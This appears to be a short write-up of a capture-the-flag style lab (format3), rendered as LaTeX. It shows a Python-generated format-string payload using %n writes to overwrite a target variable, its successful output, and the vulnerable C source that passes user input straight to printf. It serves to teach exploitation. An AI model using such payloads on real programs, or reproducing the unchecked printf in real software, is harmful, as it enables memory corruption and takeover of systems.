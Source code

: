 \begin{lstlisting}[language=bash]
python -c "print '\xf4\x96\x04\x08' + '\xf5\x96\x04\x08' + '\xf6\x96\x04\x08' + '\xf7\x96\x04\x08' + '%52u%12\$08n' + '%17u%13\$08n' + '%173u%14\$08n'" | ./format3
>>>0       3221222880...3086843892...
>>>you have modified the target :)
\end{lstlisting}

\subsection*{Source code}

\begin{lstlisting}[language=c]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
\end{lstlisting}
